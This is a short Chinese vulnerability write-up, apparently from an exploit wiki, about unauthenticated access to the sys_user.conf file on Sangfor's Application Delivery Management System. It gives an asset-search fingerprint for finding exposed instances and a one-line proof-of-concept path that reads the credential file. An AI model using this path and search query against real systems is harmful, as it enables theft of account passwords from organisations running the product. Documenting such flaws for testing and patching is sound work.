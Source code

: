 # 深信服 应用交付管理系统 sys_user.conf 账号密码泄漏漏洞

## 漏洞描述

深信服 应用交付管理系统 文件sys_user.conf可在未授权的情况下直接访问，导致账号密码泄漏

## 漏洞影响

<a-checkbox checked>深信服 应用交付管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="SANGFOR-应用交付管理系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1646105000489-5727976c-4824-4f44-9c53-729cd9410f93.png)

验证POC

```javascript
/tmp/updateme/sinfor/ad/sys/sys_user.conf
```

![img](/assets/PeiQi-Wiki/img/1646105017682-f6969569-17c3-4386-aa54-792537cab576.png)